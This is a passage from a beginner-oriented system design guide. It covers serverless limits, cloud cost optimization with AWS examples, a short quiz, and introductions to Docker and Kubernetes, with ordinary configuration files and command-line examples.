- Many companies use Lambda and Cloud Run functions as "glue": reacting to S3 uploads, processing webhooks, running scheduled tasks, Slack bots and lightweight APIs. Spiky, short and independent tasks are exactly where serverless shines.
- **Amazon Prime Video** published a 2023 tech blog post about its audio/video quality-monitoring service. A distributed design built on AWS Step Functions and Lambda became expensive at high, constant load. Rebuilding it as a single process on containers cut that service's infrastructure cost by over 90% (details in #68).
- **AWS Step Functions**, **Fargate**, **Cloud Run jobs** and **AWS Batch** are the usual "escape hatches" for work that outgrows function limits.

**⚖️ Trade-offs: when serverless fits vs. when it doesn't**

| Serverless fits well | Serverless fits poorly |
|---|---|
| Spiky or unpredictable traffic, long idle periods | Steady, high, 24/7 traffic (containers/VMs often cheaper) |
| Event glue: uploads, webhooks, queues, cron jobs | Long-running jobs over 15 minutes (video encoding, ML training) |
| Short, independent tasks that parallelize well | Long-lived connections and stateful work (game servers, big in-memory caches) |
| Small teams that want minimal operations work | Strict low-latency p99 APIs where cold starts hurt |
| Prototypes and new products with unknown demand | Heavy relational database use without a connection pooler |
| Scale-to-zero dev/test environments | Needs GPUs or special hardware |

**⚠️ Common mistakes:**
- Putting a long batch job in a function with no checkpointing, so it dies at the 15-minute timeout and restarts from zero.
- Unlimited concurrency against a small relational database, which leads to connection exhaustion.
- Writing files to `/tmp` and expecting them to be there on the next invocation, or on another copy.
- Setting the SQS visibility timeout shorter than the function timeout, so messages get processed twice (make handlers idempotent, #29).
- Forgetting the concurrency quota is **shared** by all functions in the account and region. Use reserved concurrency for critical functions.
- Assuming serverless is always cheaper. Calculate cost at your real, steady traffic.

**🎯 Remember:** Serverless trades control for convenience. Know the limits (15 min, 10 GB memory, 6 MB sync payload, 1,000 default concurrency, 10 GB `/tmp`), keep functions short and stateless, protect your database, and move long or steady heavy work to containers.

**🔗 See also:** [#66 Cold Starts (Serverless)](#66-cold-starts-serverless), [#31 Message Queues](#31-message-queues), [#43 Connection Pooling](#43-connection-pooling), [#37 Saga Pattern](#37-saga-pattern), [#29 Idempotency](#29-idempotency), [#68 Cost Optimization](#68-cost-optimization)

---

### 68. Cost Optimization

> **In one line:** Cost optimization means paying only for the computing you actually need, without making your system slower or less reliable.

**🏠 Real-life analogy:** Think of your household bills. You turn off lights in empty rooms (shut down dev servers at night). You buy a yearly train pass because you commute every day (reserved capacity). You grab cheap standby flights when your dates are flexible (spot instances). You move old boxes to the attic instead of renting a bigger flat (cheaper storage tiers). And you check which appliances use the most electricity before trying to save (tagging and cost reports).

**❓ What problem does it solve?** The cloud makes spending effortless. Anyone can launch a big machine in seconds, and nobody remembers to turn it off. Without cost discipline you get:
- **bill shock**: a monthly bill much bigger than expected, with no idea who or what caused it
- **zombie resources**: forgotten test servers, unattached disks, old snapshots, idle load balancers
- **hidden charges**: data transfer and managed-service fees you never noticed
- costs growing faster than revenue, which can burn a startup's runway

**⚙️ How it works:**

**1. Understand the bill.** Most cloud bills come from four buckets:
- **Compute**: VMs, containers and functions. This is usually the biggest bucket.
- **Storage**: priced per GB-month, plus a fee per request (reads and writes).
- **Data transfer**: data leaving the cloud to the internet (**egress**) costs money, while incoming data is usually free. Traffic between availability zones or regions often costs money too.
- **Managed service fees**: managed databases, NAT gateways (charged per GB processed), load balancers, and logging/monitoring ingestion.

**2. Make costs visible.**
- **Tag** every resource (`team`, `service`, `env`) so the bill can be split by owner (*cost allocation*).
- Use cost tools (AWS Cost Explorer, Google Cloud Billing reports, Azure Cost Management) and set **budgets and alerts**.
- Build a **FinOps culture**. FinOps (financial operations) is the practice of engineers, finance and product sharing ownership of cloud spend, often tracked as *unit cost* (for example, cost per order or per active user).

**3. Right-size.** Measure real usage and shrink oversized machines. Many servers sit at low CPU most of the time, and within an instance family, one size smaller is roughly half the price. Newer instance generations and ARM-based chips (like AWS Graviton) often give more performance per dollar. Tools like AWS Compute Optimizer and Google Cloud Recommender suggest sizes for you.

**4. Commit for discounts.** If you *know* you'll run a baseline for 1–3 years, commit to it:
- AWS: **Reserved Instances** and **Savings Plans** (AWS advertises up to about 72% off On-Demand prices)
- Google Cloud: **committed use discounts**
- Azure: **reservations**

Commit only to the steady baseline. Cover peaks with On-Demand or Spot.

**5. Use Spot / preemptible capacity.** This is the cloud's spare capacity at a big discount (AWS advertises up to 90% off). The catch: it can be taken back with short notice (about 2 minutes on AWS, about 30 seconds on Google Cloud). It's great for batch jobs, CI build runners, stateless workers and data processing. It's a bad idea for your only database.

**6. Scale down and scale to zero.** Autoscaling (#65) removes capacity when traffic drops. Serverless and KEDA can go to zero.

**7. Turn off non-production at night.** Running dev/test only 12 hours a day on weekdays is 60 of 168 hours a week, which saves about 64% on those resources.

**8. Use storage tiers and lifecycle rules.** Move old data to cheaper tiers automatically. In S3: Standard → Standard-IA (Infrequent Access) → Glacier → Glacier Deep Archive. Archive tiers cost a small fraction of Standard per GB, but reading data back is slower and costs extra. Delete what you don't need (old logs, stale snapshots).

**9. Cache and use a CDN.** Serving repeated content from a cache (#38) or CDN (#9) means less compute at the origin and less egress from your servers.

**10. Revisit the architecture.** Sometimes the biggest lever is the design itself (see Prime Video below).

```mermaid
flowchart TD
    Bill["Monthly cloud bill"] --> Compute["Compute<br/>VMs, containers, functions"]
    Bill --> Storage["Storage<br/>GB-month + requests"]
    Bill --> Transfer["Data transfer<br/>egress, cross-zone, cross-region"]
    Bill --> Managed["Managed services<br/>databases, NAT, LBs, logs"]
    Compute --> LeverC["Right-size, autoscale,<br/>commit, use Spot"]
    Storage --> LeverS["Lifecycle rules,<br/>delete old data"]
    Transfer --> LeverT["CDN, caching,<br/>keep traffic in-zone"]
    Managed --> LeverM["Right tier,<br/>reduce log volume"]
```

```mermaid
flowchart LR
    Inform["Inform<br/>tags, dashboards,<br/>who spends what"] --> Optimize["Optimize<br/>right-size, commit,<br/>Spot, storage tiers"]
    Optimize --> Operate["Operate<br/>budgets, alerts,<br/>policies, regular reviews"]
    Operate --> Inform
```

The second diagram is the FinOps loop (Inform → Optimize → Operate), the cycle promoted by the FinOps Foundation. Cost work is never "done". You repeat it as the system changes.

```mermaid
stateDiagram-v2
    [*] --> Standard : object uploaded
    Standard --> StandardIA : after 30 days
    StandardIA --> Glacier : after 90 days
    Glacier --> DeepArchive : after 365 days
    DeepArchive --> Deleted : after 730 days
    Deleted --> [*]
```

**💻 Example:** An S3 lifecycle rule (JSON) that implements the diagram above for everything under `logs/`:

```json
{
  "Rules": [
    {
      "ID": "archive-then-delete-logs",
      "Filter": { "Prefix": "logs/" },
      "Status": "Enabled",
      "Transitions": [
        { "Days": 30,  "StorageClass": "STANDARD_IA" },
        { "Days": 90,  "StorageClass": "GLACIER" },
        { "Days": 365, "StorageClass": "DEEP_ARCHIVE" }
      ],
      "Expiration": { "Days": 730 }
    }
  ]
}
```

```bash
# Apply the rule to a bucket
aws s3api put-bucket-lifecycle-configuration \
  --bucket my-app-logs \
  --lifecycle-configuration file://lifecycle.json

# Stop every running instance tagged env=dev (run nightly from a scheduler)
aws ec2 describe-instances \
  --filters "Name=tag:env,Values=dev" "Name=instance-state-name,Values=running" \
  --query "Reservations[].Instances[].InstanceId" --output text \
| xargs -r aws ec2 stop-instances --instance-ids
```

And a budget alert as code (Terraform, #73) that emails the team when the month is *forecast* to pass 80% of $5,000:

```hcl
resource "aws_budgets_budget" "monthly_total" {
  name         = "monthly-total"
  budget_type  = "COST"
  limit_amount = "5000"
  limit_unit   = "USD"
  time_unit    = "MONTHLY"

  notification {
    comparison_operator        = "GREATER_THAN"
    threshold                  = 80
    threshold_type             = "PERCENTAGE"
    notification_type          = "FORECASTED"
    subscriber_email_addresses = ["platform-team@example.com"]
  }
}
```

**🌍 Real-world usage:**
- **Amazon Prime Video (2023):** the Prime Video tech blog described a service that monitors audio/video streams for quality problems. Its first version was a distributed design: AWS Step Functions orchestrated serverless components, and video frames were passed between them through S3. At scale, the two biggest costs were the Step Functions state transitions and the many S3 calls. The team moved the components into a single process running on containers (Amazon ECS) and passed data in memory. They reported that this **cut the service's infrastructure cost by over 90%**. The lesson isn't "serverless is bad". It's "match the architecture to the workload, and re-check it as the workload grows."
- **37signals** (makers of Basecamp and HEY) publicly documented moving its steady, predictable workloads off the public cloud onto its own hardware in 2022–2023, mainly to reduce cost. Steady workloads are where renting by the hour is least attractive.
- Running **CI runners and batch jobs on Spot** instances is a widespread practice. Tools like **Kubecost / OpenCost** split Kubernetes costs by team and service.

**⚖️ Trade-offs: the "cost levers" table**

| Lever | Typical savings | Risk |
|---|---|---|
| Delete idle "zombie" resources | 100% of that resource's cost | Deleting something that was actually needed (check tags and owners first) |
| Right-sizing | Each size step down in a family is about half the price | Too small means slowdowns and outages at peak |
| Reserved Instances / Savings Plans / CUDs | Up to about 72% vs On-Demand (vendor figure) | Locked in for 1–3 years, wasted if usage drops or changes |
| Spot / preemptible | Up to about 90% vs On-Demand (vendor figure) | Interrupted with ~2 min (AWS) or ~30 s (GCP) notice |
| Autoscaling / scale to zero | Proportional to how far traffic is below peak | Scale-up lag, cold starts |
| Dev/test off at night and weekends | About 64% for a 12h × 5-day schedule | Annoyed developers if the schedule doesn't fit |
| Storage tiers and lifecycle | Large per-GB savings for cold data | Slow and paid retrieval, minimum storage durations |
| Caching / CDN | Less origin compute and egress, depends on hit ratio | Stale data, invalidation complexity (#39) |
| Architecture change | Can be huge (Prime Video: over 90% for one service) | Big engineering effort and migration risk |
| Tags, budgets, alerts | None directly, but they enable every other lever | Requires discipline and enforcement |

**⚠️ Common mistakes:**
- No tagging, so nobody knows which team or feature is spending the money.
- Buying 3-year commitments for workloads that may shrink, move or be rewritten.
- Running stateful production databases on Spot instances.
- Ignoring data transfer: chatty microservices across zones, NAT gateway processing, serving large files without a CDN.
- Cutting reliability to save money (single zone, no backups, no headroom) and then paying far more during an outage.
- Logging everything at debug level forever, so log ingestion and storage quietly become a top line item.

**🎯 Remember:** First *see* the spend (tags, budgets), then cut waste (zombies, right-sizing, nights off), then get discounts (commitments for the baseline, Spot for interruptible work), and finally rethink the architecture. Cost is a feature you design, not an accident you discover.

**🔗 See also:** [#65 Autoscaling](#65-autoscaling), [#67 Serverless Limits](#67-serverless-limits), [#9 CDN](#9-cdn), [#38 Caching](#38-caching), [#63 Vertical Scaling](#63-vertical-scaling), [#73 Terraform](#73-terraform)

---

### 🧠 Part 10 Quiz

**Q1. What is the difference between vertical and horizontal scaling, and why are databases often scaled vertically first?**
<details><summary>Show answer</summary>

Vertical scaling makes one machine bigger (more CPU, RAM, faster disk). Horizontal scaling adds more machines behind a load balancer. Databases are stateful, and spreading writes across machines requires replication, sharding and consistency trade-offs, so a bigger single database server (plus read replicas) is much simpler until you hit its ceiling.

</details>

**Q2. Your app runs on 4 servers behind a load balancer, and users complain they get logged out randomly. What is going on, and how would you fix it?**
<details><summary>Show answer</summary>

Sessions are probably stored in each server's memory, so when the load balancer sends a user to a different server, that server doesn't know them. Make the app stateless by storing sessions in a shared store like Redis or the database (or use signed tokens). Sticky sessions are only a temporary workaround.

</details>

**Q3. Your Kubernetes HPA keeps bouncing between 5 and 12 pods every few minutes. What is this called, and what would you do?**
<details><summary>Show answer</summary>

This is flapping. Add a scale-down stabilization window or cooldown (for example 5 minutes), scale up fast but scale down slowly, and leave a gap between the scale-up and scale-down thresholds. Also check that you scale on a stable, meaningful signal (RPS or queue length may be better than spiky CPU).

</details>

**Q4. A Lambda-based API answers most requests in 80 ms, but the first request after a quiet period takes 3 seconds. What is happening, and name two fixes.**
<details><summary>Show answer</summary>

That is a cold start: the platform had to create a new environment, load the code, start the runtime and run the init code. Fixes include provisioned concurrency (or min instances), smaller packages, lazy loading of heavy dependencies, keeping init outside the handler and reusing connections, SnapStart for Java, Python or .NET, or switching to a lighter runtime.

</details>

**Q5. Spot instances vs. Reserved Instances/Savings Plans: which would you use for CI build runners, and which for an always-on production database? Why?**
<details><summary>Show answer</summary>

Use Spot for CI runners. Builds are short, retryable and stateless, so an interruption only means re-running a job, and you get a big discount. Use Reserved Instances or Savings Plans for the always-on database. It runs 24/7 with predictable usage and must not be interrupted, so a long-term commitment discount is the right fit.

</details>


## Part 11 — Containers, Infrastructure & Delivery

Writing code is only half the job. The code also has to be packaged, run on real machines, and updated safely, again and again, without waking anyone up at 3 a.m. This part covers that path from "my laptop" to "production": containers (Docker), running many containers (Kubernetes and Helm), describing servers in code (Infrastructure as Code and Terraform), and automated build and release pipelines (CI/CD, build caching, and keeping dependencies under control).

```mermaid
flowchart LR
    Code["Your code"] --> Docker["69. Docker<br/>package it"]
    Deps["76. Dependency Hell<br/>manage libraries safely"] --> Code
    CICD["74. CI/CD<br/>build, test, ship automatically"] --> Docker
    Cache["75. Build Caching<br/>make pipelines fast"] --> CICD
    Docker --> K8s["70. Kubernetes<br/>run containers at scale"]
    Helm["71. Helm Charts<br/>package K8s apps"] --> K8s
    IaC["72. Infrastructure as Code"] --> TF["73. Terraform<br/>create cloud resources"]
    TF --> K8s
```

---

### 69. Docker

> **In one line:** Docker packs your app and everything it needs into a sealed box called a container, so it runs the same way on every computer.

**🏠 Real-life analogy:** For a long time, ships were loaded by hand: sacks, barrels and crates of every shape, each needing special handling at every port. Then the standard steel shipping container arrived. Ships, trains, trucks and cranes don't care what is inside. They move the same-sized box the same way. Docker is the shipping container for software. It doesn't matter what's inside (Node, Python, Java, an odd C library). Every server handles the box the same way.

**❓ What problem does it solve?** The famous excuse: *"But it works on my machine!"* Your laptop has Node 20, the server has Node 18. Your laptop has a system library that the server is missing. A teammate on Windows gets a completely different error. Without containers:
- Setting up a new server or a new developer's laptop means following a long, fragile checklist.
- Two apps on the same server fight over versions (App A needs Python 3.9, App B needs Python 3.12).
- What you tested is not exactly what runs in production, so bugs show up only after release.

Docker solves this by making the **environment itself** part of what you ship.

**⚙️ How it works:**
1. **Dockerfile:** a text recipe: "start from this base, copy these files, install these packages, run this command".
2. **Image:** `docker build` follows the recipe and produces an image. An image is a read-only snapshot (a frozen copy) of everything needed: OS libraries, the language runtime, your dependencies, your code, and the start command.
3. **Container:** `docker run` starts a container from an image. A container is a running process with its own private view of files, network and other processes. One image can start many identical containers. Think "class vs object" in programming.
4. **Layers:** every instruction in the Dockerfile (`FROM`, `COPY`, `RUN`) creates a **layer**, a set of file changes stacked on the previous one. Layers are cached and shared. If ten images use `node:20-alpine` as their base, that base is stored only once. A running container adds one thin **writable layer** on top. That layer is thrown away when the container is deleted, which is why real data belongs in **volumes** (storage that lives outside the container).
5. **Under the hood:** a container is not a mini-computer. It is a normal Linux process fenced in by kernel features. **Namespaces** control what it can *see* (its own process list, network and filesystem). **cgroups** (control groups) control how much it can *use* (CPU, memory). All containers on a host share the host's **kernel** (the core of the operating system). On Mac and Windows, Docker Desktop quietly runs a small Linux VM to provide that kernel.
6. **Registry:** a "GitHub for images". You `docker push` an image to a registry, and servers `docker pull` it. Popular registries: **Docker Hub** (the default public one), **Amazon ECR** (Elastic Container Registry), **GitHub Container Registry** (`ghcr.io`), Google Artifact Registry and Azure Container Registry. Image names look like `registry/owner/name:tag`, for example `ghcr.io/acme/web:1.4.2`.

| | Image | Container |
|---|---|---|
| What it is | Read-only template (a frozen snapshot) | A running (or stopped) instance of an image |
| Programming analogy | A class | An object made from that class |
| Created by | `docker build` | `docker run` |
| Can it change? | Never. You build a new image instead | Yes, in its thin writable layer, which is lost when the container is removed |

How layers stack up for a typical Node app (newest layer on top):

```text
Container layer (thin, writable)    <- the running app writes temp files here
-------------------------------------------------------------
Layer 4: COPY . .                   (your source code)
Layer 3: RUN npm ci                 (node_modules)
Layer 2: COPY package*.json ./      (dependency list)
Layer 1: FROM node:20-alpine        (small Linux + Node.js runtime)
```

```mermaid
flowchart LR
    DF["Dockerfile<br/>(recipe)"] -->|"docker build"| Img["Image<br/>web:1.4.2"]
    Img -->|"docker push"| Reg[("Registry<br/>Docker Hub / ECR / GHCR")]
    Reg -->|"docker pull"| Server["Production server"]
    Img -->|"docker run"| C1["Container 1"]
    Img -->|"docker run"| C2["Container 2"]
    Server -->|"docker run"| C3["Container 3"]
```

**Containers vs virtual machines (VMs).** A VM pretends to be a whole computer, with its own full operating system on top of a **hypervisor** (software that splits one physical machine into many virtual ones). A container shares the host's OS kernel and only packages the app and its libraries.

```mermaid
flowchart TD
    subgraph VMSide["Virtual Machines"]
        VApp1["App A + libs"] --> GOS1["Guest OS (own kernel)"]
        VApp2["App B + libs"] --> GOS2["Guest OS (own kernel)"]
        GOS1 --> Hyper["Hypervisor"]
        GOS2 --> Hyper
        Hyper --> HW1["Physical server"]
    end
    subgraph CtrSide["Containers"]
        CApp1["App A + libs"] --> Runtime["Container runtime"]
        CApp2["App B + libs"] --> Runtime
        CApp3["App C + libs"] --> Runtime
        Runtime --> HostOS["Host OS (one shared kernel)"]
        HostOS --> HW2["Physical server"]
    end
```

| | Containers | Virtual machines |
|---|---|---|
| What's packaged | App + its libraries | App + libraries + a whole guest OS |
| Typical size | Tens to hundreds of MB | Several GB |
| Start-up time | Usually about a second or less | Usually tens of seconds to minutes |
| Isolation | Process-level; all share the host kernel | Strong; each VM has its own kernel |
| How many per server | Many (dozens or more) | Fewer |
| Best for | Microservices, CI jobs, packaging apps | Different operating systems, strong isolation between customers |

In the cloud you usually get **both**: your containers run inside VMs (for example, on EC2 instances). AWS even built **Firecracker** "microVMs" to give Lambda and Fargate VM-level isolation with container-like speed.

**💻 Example:**

A **multi-stage** Dockerfile for a small Node.js app. Stage 1 has all the build tools. Stage 2 copies only the finished result, so the final image is smaller and has less to attack. Note: in Dockerfiles, comments must be on their own line.

```dockerfile
# ---------- Stage 1: build ----------
FROM node:20-alpine AS build
WORKDIR /app
# Copy only the dependency list first (better caching, see #75)
COPY package*.json ./
RUN npm ci
COPY . .
# Compile (e.g., TypeScript -> JavaScript), then drop dev-only packages
RUN npm run build && npm prune --omit=dev

# ---------- Stage 2: run ----------
FROM node:20-alpine
ENV NODE_ENV=production
WORKDIR /app
COPY --from=build --chown=node:node /app/package.json ./
COPY --from=build --chown=node:node /app/node_modules ./node_modules
COPY --from=build --chown=node:node /app/dist ./dist
# Don't run as root: the official Node image ships a user called 'node'
USER node
EXPOSE 3000
CMD ["node", "dist/server.js"]
```

A `.dockerignore` file keeps junk and secrets out of the **build context** (the files sent to Docker when building):

```text
node_modules
dist
.git
.env
*.log
coverage
```

Everyday commands:

```bash
# Build an image from the Dockerfile in the current folder, and tag it
docker build -t web:1.4.2 .

# Run it in the background (-d), mapping laptop port 8080 -> container port 3000
docker run -d --name web -p 8080:3000 web:1.4.2

docker ps                    # list running containers
docker logs -f web           # follow the container's output (stdout/stderr)
docker exec -it web sh       # open a shell inside the running container
docker stop web && docker rm web

# Publish to a registry (here: GitHub Container Registry)
docker tag web:1.4.2 ghcr.io/acme/web:1.4.2
docker push ghcr.io/acme/web:1.4.2
```

**docker-compose** runs several containers together on one machine, which is perfect for local development. Here: your app + Postgres + Redis, started with `docker compose up -d` and stopped with `docker compose down`.

```yaml
# compose.yaml
services:
  app:
    build: .
    ports:
      - "8080:3000"
    environment:
      # Services reach each other by service name: 'db' and 'cache'
      DATABASE_URL: postgres://app:devpassword@db:5432/appdb
      REDIS_URL: redis://cache:6379
    depends_on:
      db:
        condition: service_healthy   # wait until Postgres is really ready
      cache:
        condition: service_started
  db:
    image: postgres:16
    environment:
      POSTGRES_USER: app
      POSTGRES_PASSWORD: devpassword  # local dev only, never real secrets
      POSTGRES_DB: appdb
    volumes:
      - pgdata:/var/lib/postgresql/data   # data survives container restarts
    healthcheck:
      test: ["CMD-SHELL", "pg_isready -U app -d appdb"]
      interval: 5s
      retries: 10
  cache:
    image: redis:7
volumes:
  pgdata:
```

**🌍 Real-world usage:** Docker was released in 2013 and made Linux containers easy enough for everyone. Its image format was later standardized by the **OCI** (Open Container Initiative), so the same image runs on Kubernetes, Podman, AWS ECS and Fargate, Google Cloud Run and Azure Container Apps. Netflix runs huge numbers of containers on its own platform, Titus. Google has said for years that practically everything it runs is in containers. CI systems like GitHub Actions and GitLab CI use containers for jobs, and VS Code Dev Containers / GitHub Codespaces give every developer an identical setup. Alternatives to the Docker tool itself include Podman, containerd and BuildKit.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Same environment on laptop, CI and production | Shared kernel means weaker isolation than VMs |
| Fast start-up, many apps per server | More concepts to learn (images, networks, volumes) |
| Easy rollback: just run the previous image tag | Images go stale and carry known vulnerabilities if not rebuilt |
| Supported by every cloud and CI system | Storing persistent data needs extra care (volumes) |

**⚠️ Common mistakes:**
- **Running as root** inside the container. If an attacker breaks in, they get root inside it. Add a `USER` line.
- **Baking secrets into the image** (`COPY .env`, `ENV API_KEY=...`). Anyone who can pull the image can read every layer, even if a later layer deletes the file. Pass secrets at runtime instead.
- **Using the `latest` tag in production.** You can't tell which version is running, and rollbacks become guesswork. Tag with a version or Git commit SHA.
- **Huge images:** the full Debian-based language images can approach 1 GB. Use `-slim`/`-alpine`/distroless bases and multi-stage builds.
- **Keeping important data in the container's filesystem.** It disappears when the container is removed. Use volumes or a managed database.

**🎯 Remember:** An image is the packaged blueprint; a container is a running copy of it. Build the image once and run that exact image in dev, CI and production.

**🔗 See also:** [#70 Kubernetes](#70-kubernetes), [#74 CI/CD](#74-cicd), [#75 Build Caching](#75-build-caching), [#76 Dependency Hell](#76-dependency-hell)

---

### 70. Kubernetes

> **In one line:** Kubernetes is a robot manager that runs your containers across many machines, restarts them when they crash, and adds more copies when traffic grows.

**🏠 Real-life analogy:** Imagine a big restaurant manager. You don't tell the manager *how* to staff the kitchen minute by minute. You say: "I always want 3 cooks on the grill and 2 on the fryer." The manager keeps checking. If a cook goes home sick, the manager calls in a replacement. If the dinner rush hits, the manager adds more cooks. Kubernetes is that manager for containers: you describe what you want, and it keeps making it true.

**❓ What problem does it solve?** Docker runs containers on **one** machine. Real systems have hundreds of containers on dozens of machines. Now you have hard questions:
- Which server has free CPU and memory for this new container?
- A server dies at 3 a.m. Who restarts its containers somewhere else?
- Containers keep moving and changing IP addresses. How do they find each other?
- How do you roll out version 2 without downtime, and roll back if it's broken?
- How do you go from 5 copies to 50 when traffic spikes?

Doing all of this by hand (or with home-made scripts) is slow and error-prone. Kubernetes (often written **K8s**: "K", 8 letters, "s") automates it. The name is Greek for "helmsman" (the person steering a ship).

**⚙️ How it works:**
1. **Origins:** Google ran its containers for over a decade on an internal system called **Borg**. Kubernetes was open-sourced by Google in 2014, based on lessons from Borg. Version 1.0 came out in 2015, and Google donated it to the newly created **CNCF** (Cloud Native Computing Foundation).
2. **Cluster:** a group of machines (**nodes**) managed together. It has two halves: the **control plane** (the brain) and **worker nodes** (the muscle).
3. **Control plane components:**
   - **API server** (`kube-apiserver`): the front door. Every command (from you, from `kubectl`, or from other components) goes through it.
   - **etcd:** a reliable key-value database that stores the whole cluster's state. It is the cluster's memory and source of truth.
   - **Scheduler:** picks which node a new Pod should run on, based on free resources and rules.
   - **Controller manager:** runs many small **controllers**, loops that keep checking "is reality what was asked for?" and fix it if not.
4. **Worker node components:**
   - **kubelet:** an agent on every node. It asks the API server "which Pods should I run?" and makes sure they are running and healthy.
   - **kube-proxy:** sets up network rules so traffic sent to a Service reaches the right Pods.
   - **Container runtime:** the software that actually runs containers, for example **containerd** or **CRI-O**. Images built with Docker run fine because they follow the OCI standard.
5. **Desired state:** you write YAML files (called **manifests**) that describe what you want ("3 copies of web:1.4.2") and send them with `kubectl apply`. Kubernetes stores that in etcd. Then controllers run a **reconciliation loop** forever: *observe → compare → act*.
6. **Managed Kubernetes:** with Amazon **EKS**, Google **GKE** or Azure **AKS**, the cloud provider runs the control plane for you. You mostly manage your apps and worker nodes.

```mermaid
flowchart TD
    User["You with kubectl"]
    subgraph ControlPlane["Control Plane (the brain)"]
        API["API Server"]
        Etcd[("etcd<br/>cluster state")]
        Sched["Scheduler"]
        CM["Controller Manager"]
        API --> Etcd
        Sched -->|"watches and assigns"| API
        CM -->|"watches and fixes"| API
    end
    subgraph Node1["Worker Node 1"]
        K1["kubelet"]
        P1["kube-proxy"]
        R1["Container runtime"]
        PodA["Pod A"]
        PodB["Pod B"]
    end
    subgraph Node2["Worker Node 2"]
        K2["kubelet"]
        P2["kube-proxy"]
        R2["Container runtime"]
        PodC["Pod C"]
    end
    User -->|"kubectl apply"| API
    K1 -->|"what should I run?"| API
    K2 -->|"what should I run?"| API
    K1 --> R1
    R1 --> PodA
    R1 --> PodB
    K2 --> R2
    R2 --> PodC
```

**Core objects** (the "nouns" of Kubernetes):

| Object | What it is | Example use |
|---|---|---|
| **Pod** | Smallest unit: one or more containers that share an IP address and storage. Disposable | One copy of your web app |
| **ReplicaSet** | Keeps N identical Pods running | "Always 3 web Pods" (usually created for you by a Deployment) |
| **Deployment** | Manages ReplicaSets to do rolling updates and rollbacks | Your stateless API or website |
| **Service** | A stable name and IP that load-balances to a changing set of Pods. Types: ClusterIP (internal), NodePort, LoadBalancer (cloud LB) | `http://web` always reaches healthy web Pods |
| **Ingress** | HTTP routing rules from outside into Services (by host name and path), handled by an **Ingress controller** | `shop.com/api` goes to the api Service |
| **ConfigMap** | Non-secret settings injected as env vars or files | Feature flags, log level |
| **Secret** | Sensitive settings (passwords, tokens). Only base64-encoded by default, not encrypted | Database password |
| **Namespace** | A folder that separates resources inside one cluster | `dev`, `staging`, team-a |
| **StatefulSet** | Like a Deployment, but Pods get stable names and their own disks | Databases, Kafka, ZooKeeper |
| **DaemonSet** | Runs exactly one Pod on every node (or chosen nodes) | Log collectors, monitoring agents |
| **Job / CronJob** | Runs Pods until a task finishes / on a schedule | DB migration / nightly report |

**Desired state and the reconciliation loop.** This single idea explains almost everything Kubernetes does:

```mermaid
flowchart LR
    Desired["Desired state in etcd<br/>replicas: 3"] --> Compare{"Actual equals desired?"}
    Observe["Observe actual state<br/>2 Pods running"] --> Compare
    Compare -->|"Yes"| Wait["Do nothing"]
    Compare -->|"No"| Act["Act: create or delete Pods"]
    Act --> Observe
    Wait -->|"check again"| Observe
```

**The self-healing story.** It's 3 a.m. and Worker Node 2, which runs 2 of your 3 web Pods, loses power.
1. Node 2's kubelet stops sending heartbeats. The control plane marks the node `NotReady`.
2. After a grace period (about 5 minutes by default), Kubernetes evicts the Pods that were on that node.
3. The ReplicaSet controller sees "1 Pod exists, 3 wanted" and creates 2 new Pods.
4. The scheduler places them on healthy nodes, and those nodes' kubelets start them.
5. When the new Pods pass their **readiness probe** (a health check), the Service starts sending them traffic. Nobody was paged.

On a smaller scale, if a single container crashes, its node's kubelet simply restarts it. If a **liveness probe** keeps failing (the app is stuck), the kubelet restarts that container too.

```mermaid
sequenceDiagram
    participant N2 as Worker Node 2
    participant CP as Control Plane
    participant RS as ReplicaSet Controller
    participant S as Scheduler
    participant N1 as Worker Node 1
    N2-xCP: Heartbeats stop (node crashed)
    Note over CP: Node marked NotReady, its Pods evicted after grace period
    RS->>CP: Only 1 of 3 web Pods left, create 2 new Pods
    S->>CP: Bind the new Pods to Worker Node 1
    CP->>N1: kubelet sees new Pods and starts them
    N1-->>CP: Pods running and ready
    Note over CP,N1: Service now routes traffic only to healthy Pods
```

**How a request reaches your Pods.** Users hit a cloud load balancer, which forwards to the **Ingress controller** (for example Traefik, NGINX, or a cloud provider's controller). It routes by host and path to a **Service**, which spreads requests across healthy **Pods**. (Newer clusters increasingly use the **Gateway API**, the more powerful successor to Ingress.)

```mermaid
flowchart LR
    Users["Users on the internet"] --> LB["Cloud Load Balancer"]
    LB --> Ing["Ingress Controller<br/>routes by host and path"]
    Ing -->|"shop.example.com/api"| SvcAPI["Service: api"]
    Ing -->|"shop.example.com/"| SvcWeb["Service: web"]
    SvcAPI --> PodA1["api Pod 1"]
    SvcAPI --> PodA2["api Pod 2"]
    SvcWeb --> PodW1["web Pod 1"]
    SvcWeb --> PodW2["web Pod 2"]
    SvcWeb --> PodW3["web Pod 3"]
```

**💻 Example:**

A Deployment (3 copies of the web app, with health checks and resource limits) plus a Service in front of it. Save as `web.yaml`:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: web
spec:
  replicas: 3                     # desired state: always 3 Pods
  selector:
    matchLabels:
      app: web                    # this Deployment owns Pods labelled app=web
  template:                       # the blueprint for each Pod
    metadata:
      labels:
        app: web
    spec:
      containers:
        - name: web
          image: ghcr.io/acme/web:1.4.2   # pinned version, never 'latest'
          ports:
            - containerPort: 3000
          resources:
            requests: { cpu: "100m", memory: "128Mi" }   # used for scheduling
            limits: { memory: "256Mi" }                  # hard cap
          readinessProbe:         # only send traffic when this succeeds
            httpGet: { path: /healthz, port: 3000 }
          livenessProbe:          # restart the container if this keeps failing
            httpGet: { path: /healthz, port: 3000 }
            initialDelaySeconds: 10
---
apiVersion: v1
kind: Service
metadata:
  name: web
spec:
  selector:
    app: web                      # send traffic to Pods with this label
  ports:
    - port: 80                    # port the Service listens on
      targetPort: 3000            # port inside the container
```

Common `kubectl` commands:

```bash
kubectl apply -f web.yaml                 # create or update to match the file
kubectl get pods -o wide                  # list Pods and which node each is on
kubectl get deploy,svc,ingress            # list Deployments, Services, Ingresses
kubectl describe pod web-7d4b9c-x2k8p     # details + recent events (great for debugging)
kubectl logs -f deploy/web                # stream logs from the web Pods
kubectl exec -it web-7d4b9c-x2k8p -- sh   # shell inside a running container
kubectl scale deploy/web --replicas=5     # scale out manually
kubectl set image deploy/web web=ghcr.io/acme/web:1.4.3   # start a rolling update
kubectl rollout status deploy/web         # watch the rollout progress
kubectl rollout undo deploy/web           # roll back to the previous version
kubectl get pods -n staging               # -n picks a namespace
```

During a **rolling update**, the Deployment creates a new ReplicaSet and swaps Pods a few at a time, only removing old Pods once new ones are ready. For automatic scaling, a **HorizontalPodAutoscaler** (HPA) adds or removes Pods based on CPU or custom metrics.

